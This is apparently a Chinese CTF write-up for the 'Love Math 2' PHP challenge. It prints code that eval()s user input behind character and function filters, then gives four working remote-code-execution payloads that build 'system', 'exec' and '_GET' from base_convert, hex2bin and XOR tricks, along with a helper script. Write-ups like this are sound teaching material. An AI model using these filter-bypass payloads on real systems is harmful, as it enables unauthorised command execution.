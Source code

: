 ```yaml
---
title: '[NESTCTF 2019]Love Math 2'
date: 2024-09-25 19:12:06
tags: php特性
categories: 刷题笔记
---
```


## [NESTCTF 2019]Love Math 2

```
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 60) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

我们进行代码审计

**1.参数c字符数不能超过80个字符**

**2.不能含有空格，\t，\r，\n，\，单双引号，中括号**

**3.使用的单词/函数必须在白名单中**

<!--more->

限制比较严，那就看一下我们常用的一些符号，$,(),{}，=，；，^等，他是我们需要知道的是php中的函数名也是字符串

像$pi、\$cos都是合法变量名。

从可使用的符号中，我们考虑的思路可以是利用数学函数构造变量拼接成动态函数执行命令，也可以考虑使用异或来拼接函数名

我们需要知道

> **PHP函数：**
>
> scandir() 函数：返回指定目录中的文件和目录的数组。
> base_convert() 函数：在任意进制之间转换数字。
> dechex() 函数：把十进制转换为十六进制。
> hex2bin() 函数：把十六进制值的字符串转换为 ASCII 字符。
> var_dump() ：函数用于输出变量的相关信息。
> readfile() 函数：输出一个文件。该函数读入一个文件并写入到输出缓冲。若成功，则返回从文件中读入的字节数。若失败，则返回 false。您可以通过 @readfile() 形式调用该函数，来隐藏错误信息。
> 语法：readfile(filename,include_path,context)
>
>  
>
> **动态(可变)函数**
>
> PHP中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数，例如： **$a = "`assert`"; $a."(...)";** 
>
> PHP 支持可变函数的概念。这意味着如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它。可变函数可以用来实现包括回调函数，函数表在内的一些用途。 可变函数不能用于例如 **eval()** ， **echo** ， **print** ， **unset()** ， **isset()** ， **empty()** ， **include()** ， **require()** 以及类似的语言结构。需要使用自己的包装函数来将这些结构用作可变函数。
>
>  
>
> **php中函数名默认为字符串**
>
> 例如本题白名单中的asinh和pi可以直接异或，这就增加了构造字符的选择
>
>  
>
> *引用自https://www.cnblogs.com/wangtanzhi/p/12246731.html*

这题直接看第四种思路

**第一种思路**（适用于无长度限制的）：利用数学函数运算得到函数和命令

拼接出__GET利用其它参数RCE

```
/index.php?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=<command>
```

```
base_convert(37907361743,10,36) => "hex2bin"
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
```



**第二种思路**（适用于无长度限制的）：拼凑出getallheaders利用HeaderRCE

getallheaders — 获取全部 HTTP 请求头信息

getallheaders用法可以参考:https://www.php.net/manual/zh/function.getallheaders.php

```
/index.php?c=$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
```



**第三种思路**（适用于无长度限制的） 拼凑出exec、system等命令执行函数直接RCE

```
/index.php?c=($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
//分析：exec('hex2bin(dechex(109270211257898))') => exec('cat f*')

/index.php?c=base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
//分析：system('cat'.dechex(16)^asinh^pi) => system('cat *')
```



**第四种思路**：利用异或得到函数名和命令

```
<?php
$payload = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($k=1;$k<=sizeof($payload);$k++){
    for($i = 0;$i < 9; $i++){
        for($j = 0;$j <=9;$j++){
            $exp = $payload[$k] ^ $i.$j;
            echo($payload[$k]."^$i$j"."==>$exp");
            echo "<br />";
        }
    }
}
```

利用该脚本我们可以利用异或构造出Payload：

```
/index.php?c=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=<command>
```

